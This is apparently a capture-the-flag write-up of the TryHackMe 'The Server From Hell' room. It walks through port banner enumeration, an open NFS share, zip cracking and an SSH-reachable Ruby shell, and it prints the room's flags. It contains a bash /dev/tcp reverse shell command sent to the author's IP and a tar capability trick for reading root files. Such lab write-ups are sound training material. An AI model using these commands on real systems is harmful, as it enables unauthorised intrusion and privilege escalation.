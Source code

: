 # Tryhackme.com Room : The Server From Hell
`https://tryhackme.com/room/theserverfromhell`


# Instance
```
export IP=10.10.156.230
```

# Nmap
```

```

```

```

Shitload of ports available

The challenge says :
```
Start at port 1337 and enumerate your way.
Good luck.
```

so lets see what's on port 1337 `nc $IP 1337`
We get:
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports
```

The challenge says to start at `1337` so the first 100 ports should be between `1337` and `1437`

Trying some random ports `1356`:
```
HTTP/1.0 200 OK
Date: i
Server: Embedded HTTP Server.
d<meta http-equiv="refresh" content="0; URL=/scgi-bin/platform.cgi">
```

`1338`
```
+OK POP3 server ready
```

Gessing this is just there to fool nmap, big trolling here, that's why my nmap scan were taking forever..

We can just print the first 100 ports quickly with a small python script

```py
import subprocess
import argparse

parser = argparse.ArgumentParser('Experiment Runner')
parser.add_argument("--ip", type=str, default="10.10.156.230", help="Server ip")
parser.add_argument("--start_port", type=int, default=1, help="Start port")
parser.add_argument("--end_port", type=int, default=1337, help="End port")

args = parser.parse_args()

for port in range(args.start_port, args.end_port):
	print("="*40, flush=True)
	print(f"Port : {port}", flush=True)
	try:
		out = subprocess.check_output(f"nc {args.ip} {port}", shell=True, timeout=1.5)
	except subprocess.TimeoutExpired as e:
		print("------TIMEOUT EXPIRED------", flush=True)
		continue

	try:
		out = out.decode().strip()
	except:
		print("Couldn't decode... printing bytes", flush=True)
	print(out, flush=True)

print("Done...", flush=True)
```

Ok so.. this is big time trolling... every port is a different header for all sorts of program to fool nmap.

Couldn't find the trollface between `1337` and `1437`

I then scanned all the ports from `1` to `1337`.

Added some arguments to the python script so I could start multiple process and segment the port range between the processes. Much faster and simpler than implementing multiprocessing in python (Not worth it for this quick scanner)

Never found the troll face... upon looking back at the scan result, found this :
```
Port : 21
  28 550 12345 0f7000f800770008777 go to port 12345 80008f7f700880cf00
```

After connecting to this port we get 
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

We can list the mount point with `showmount -e $IP`
```
Export list for 10.10.156.230:
/home/nfs *
```

We can mount this using `sudo mount -t nfs $IP:/home/nfs/ mnt`

We find a `backup.zip` file

This backup file contains an ssh key for the user `hades` but require a password

We run john using
```
zip2john backup.zip > zip.hash
jogn zip.hash
```

And we get the password
```
zxcvbnm
```

We find a `flag.txt` file
```
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
```

Here is the full listing of the files in `home/hades/.ssh`
```
authorized_keys
flag.txt
hint.txt
id_rsa
id_rsa.pub
```

Looking at `authorized_keys`, we see that this is the good key but im pretty sure that port `21` is not `ssh` since this is where we found the first clue.

The hint.txt file says 
```
2500-4500
```

So i guess the `ssh` port is in this range

modified the previous script to do an ssh scan
```py
out = subprocess.check_output(f"ssh -p {port} hades@{args.ip}", shell=True, timeout=1.5, stderr=subprocess.STDOUT)
```

Found the port on `3333` (Timeout expired)

We get this motd:
```
 ██░ ██ ▓█████  ██▓     ██▓
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒
▒██▀▀██░▒███   ▒██░    ▒██░
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░
 ░  ░  ░   ░  ░    ░  ░    ░  ░

 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0>
```

When typing `ls` we get 
```
 Traceback (most recent call last):
        2: from /usr/bin/irb:11:in <main>
        1: from (irb):1
NameError (undefined local variable or method 'ls' for main:Object)
```

Which mean that we are running in some kind of interpreter.
By googling the error message, quickly found out that it was a ruby shell.

We can run system commands using `system('cat user.txt')`
```
thm{sh3ll_3c4p3_15_v3ry_1337}
```
So now lets get a reverse shell


Tried this :
```
system("bash -i >& /dev/tcp/10.6.32.20/8888 0>&1")
```

But it fucked up the shell with a `bad file descriptor`

So i've simply written this line to a script and executed it
```
system("echo 'bash -i >& /dev/tcp/10.6.32.20/8888 0>&1' > /dev/shm/shell.sh")
system("chmod +x /dev/shm/shell.sh")
system("bash /dev/shm/shell.sh")
```

And i got a reverse shell.

After some time, I looked at the hint which says
```
getcap
```

So I `getcap -r / 2>/dev/null`
```
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

Using tar we can read the root flag file with
`tar xf "/root/root.txt" -I '/bin/sh -c "cat 1>&2"'`
```
thm{w0w_n1c3_3sc4l4t10n}
```

Not sure how I could escalate further with this tho. Only have read access.

Good enough to get the flag but not to get a root shell.

Tried to dump `/root/.ssh` but doesn't seem like there is something in there.

Oh well, upon reading writeups, I could have dumped `/etc/shadow` and cracked the root password to get a root shell.